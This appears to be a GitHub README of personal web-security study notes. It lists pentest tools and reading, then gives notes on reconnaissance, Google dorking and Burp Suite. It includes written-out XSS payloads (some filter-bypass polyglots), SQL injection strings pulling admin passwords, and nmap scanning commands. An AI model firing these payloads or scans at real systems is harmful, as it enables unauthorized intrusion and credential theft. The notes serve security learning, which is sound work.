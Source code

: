 # Security

## Tools

[Base64 Decode](https://www.base64decode.org/) - Decode or encode base64.      
[Wappalyze](https://www.wappalyzer.com/) - Find out the technology stack of a website.  
[SecLists](https://github.com/danielmiessler/SecLists) - A collection of lists used during security assessments.     
[Sublist3r](https://github.com/aboul3la/Sublist3r) - Collects and gathers subdomains for a target domain.    
[fuff](https://github.com/ffuf/ffuf) - Web fuzzer.    
[Wfuzz](https://github.com/xmendez/wfuzz) - Web fuzzer.    
[XSS Hunter](https://github.com/mandatoryprogrammer/xsshunter) - Performs Blind XSS attacks and captures cookies, URLs, page contents.   
[XSStrike](https://github.com/s0md3v/XSStrike) - A Cross Site Scripting detection suite.      
[Burp Suite](https://portswigger.net/burp) - A tool for performing security testing of web applications.       
[FoxyProxy](https://addons.mozilla.org/en-GB/firefox/addon/foxyproxy-basic/) - Proxy management browser extension.    
[CloudSploit](https://github.com/aquasecurity/cloudsploit) - Detects security risks in cloud infrastructure accounts.     
[DNSDumpster](https://dnsdumpster.com/) - A research tool that can discover hosts related to a domain.     
[Nmap](https://nmap.org/) - Discovers hosts and services on a computer network.     
[arp-scan](https://github.com/royhills/arp-scan) - Uses the ARP protocol to discover and fingerprint IP hosts on the local network.    


## Reading

[OWASP Top 10](https://owasp.org/Top10/)     
[OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)      
[Postgres SQL Injection Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)    
[Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)     
[Bug Bounty Cheatsheet](https://m0chan.github.io/2019/12/17/Bug-Bounty-Cheetsheet.html)     
[Command Injection Payload List](https://github.com/payloadbox/command-injection-payload-list)     

## Videos

[A Starters Guide to Pentesting with OWASP](https://www.youtube.com/watch?v=AO_sqXb-gKE)     

## Frameworks

A set of guidelines and best practices to help organizations build and improve their cybersecurity. Frameworks are a blueprint for managing risk and reducing vulnerabilities.

[OWASP](https://owasp.org/)    
[NCSC CAF](https://www.ncsc.gov.uk/collection/caf/caf-principles-and-guidance)    
[NIST](https://www.nist.gov/cyberframework)    

## Notes

### Manual Discovery

- Page Source
  - Comments (<!-- User, password -->)
  - Links (/secret_page)
  - Directories (/assets)
  - Files (./info.zip)
- /robots.txt
- /sitemap.xml
- Default favicon of framework [https://wiki.owasp.org/index.php/OWASP_favicon_database](https://wiki.owasp.org/index.php/OWASP_favicon_database)
-  HTTP headers (versions, web server software, programming language)
- Check for default credentials

### OSINT (Open-Source Intelligence)

- Google Hacking/Dorking

[Google Hacking](https://en.wikipedia.org/wiki/Google_hacking) is a technique that uses Google Search and other Google applications to find security holes.

| Filter  | Example | 
| ------------- | ------------- | 
| site  | site:example.com  | 
| filetype  | filetype:csv  | 
| inurl  | inurl:admin  | 
| intitle  | intitle:admin  | 

**Example:** "-site:www.example.com site:*.example.com" would only contain results leading to the domain name example.com but exclude any links to www.example.com.

- [Wappalyzer](https://www.wappalyzer.com/)
- [Wayback Machine](https://archive.org/web/)
- GitHub search (Company, website names for areas and passwords)
- S3 bucket permissions ((http(s)://**{name}.**[**s3.amazonaws.com**](http://s3.amazonaws.com/)) **{name}**-assets, **{name}**-www, **{name}**-public, **{name}**-private)    



### Cross-site Scripting (XSS)

[OWASP XSS Overview](https://owasp.org/www-community/attacks/xss/)      
[THM XSS Room](https://tryhackme.com/room/xssgi)

```
<script>alert('XSS');</script>    
"><script>alert('XSS');</script>    
</textarea><script>alert('XSS');</script>    
';alert('XSS');//    
<sscriptcript>alert('XSS');</sscriptcript>    
/images/cat.jpg" onload="alert('XSS');    
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e    
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e    
<iframe src=\"javascript:alert(XSS)\">    
<iframe src="javascript:alert(`XSS`)">    
```

### SQL Injection

[OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)     
[W3Schools SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)      
[THM SQL Injection](https://tryhackme.com/room/sqlinjectionlm)      
[OWASP Testing PostgreSQL](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.4-Testing_PostgreSQL)

- Inband: data is extracted using the same channel that is used to inject the SQL code. This is the most straightforward kind of attack, in which the retrieved data is presented directly in the application web page.
- Out-of-band: data is retrieved using a different channel (e.g., an email with the results of the query is generated and sent to the tester).
- Inferential or Blind: there is no actual transfer of data, but the tester is able to reconstruct the information by sending particular requests and observing the resulting behavior of the DB Server.

```
;
'
' OR 1=1;--
1 UNION SELECT 1,2
%00' UNION SELECT password FROM Users WHERE username='admin'--
%27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--
UNION ALL SELECT user,NULL,NULL--
```

### Burp Suite

[THM Burp Suite Basics](https://tryhackme.com/room/burpsuitebasics)         

Set up browser proxy and certificate. Turn intercept on and in proxy options configure rules - "Or Request Was Intercepted", "And URL Is in target scope". Send to repeater or send to intruder.

- Browser hanging - Turn off Intercept.      
- Can't intercept - Update Scope.

### Network

Return all the IPv4 addresses: ```nslookup -type=A example.com 0.0.0.0```     
Email servers and configurations for a particular domain: ```nslookup -type=MX example.com```     

```
whois example.com
nslookup example.com     
nmap -sL -n 0.0.0.0/0.     
nmap -PR -sn 0.0.0.0/24     
nmap -PE -sn 0.0.0.0/24     
nmap -PP -sn 0.0.0.0/24     
nmap -PM -sn 0.0.0.0/24.    
nmap -PS -sn 0.0.0.0/24      
sudo nmap -PA -sn MACHINE_IP/24
arp-scan -l     

```



